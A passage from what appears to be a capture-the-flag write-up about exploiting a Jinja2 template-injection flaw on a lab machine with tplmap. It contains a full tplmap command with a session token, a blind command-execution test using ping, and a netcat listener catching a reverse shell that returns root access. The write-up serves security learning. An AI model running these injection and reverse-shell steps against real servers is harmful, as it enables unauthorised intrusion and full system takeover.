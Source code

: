     [+] Rerun tplmap providing one of the following options:
    
        --os-shell                          Run shell on the target
        --os-cmd                    Execute shell commands
        --bind-shell PORT                   Connect to a shell bind to a target port
        --reverse-shell HOST PORT   Send a shell back to the attacker's port
        --upload LOCAL REMOTE       Upload files to the server
    
    

I tried ramping the `--level` up to 5 (default 1), but still failed to read
files.

I did try the various shell options. The blind os shell option did in fact run
commands:

    
    
    root@kali# /opt/tplmap/tplmap.py -u http://10.10.10.96:8080/ -X POST -d "name=GBR-4045&desc=test" -H "Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IndpemFyZC5veiIsImV4cCI6MTU0Njc0MDEwMX0._vYHq7D4Cq9eSMI5UTQRC4lM9BjB0DAmvFZy0ZJ664w" -e Jinja2 --os-shell
    
    ...[snip]...
    
    [+] Blind injection has been found and command execution will not produce any output.
    [+] Delay is introduced appending '&& sleep <delay>' to the shell commands. True or False is returned whether it returns successfully or not.
    [+] Run commands on the operating system.
     (blind) $ ping -c 1 10.10.14.15
    
    
    
    root@kali# tcpdump -i tun0 icmp
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    20:59:37.681992 IP 10.10.10.96 > kali: ICMP echo request, id 40458, seq 0, length 64
    20:59:37.682017 IP kali > 10.10.10.96: ICMP echo reply, id 40458, seq 0, length 64
    

The `--reverse-shell` option worked. It gave me a weird error about not being
able to bind on 0.0.0.0:[whatever port I gave it], even though it was supposed
to a reverse shell… and the reverse shell worked:

    
    
    root@kali# nc -lnvp 4444
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::4444
    Ncat: Listening on 0.0.0.0:4444
    Ncat: Connection from 10.10.10.96.
    Ncat: Connection from 10.10.10.96:43747.
    /bin/sh: can't access tty; job control turned off
    /app # id
    uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
    

That’s pretty neat.

I did notice that the reverse shell command tended to hang and be really
difficult to kill. Not sure why…
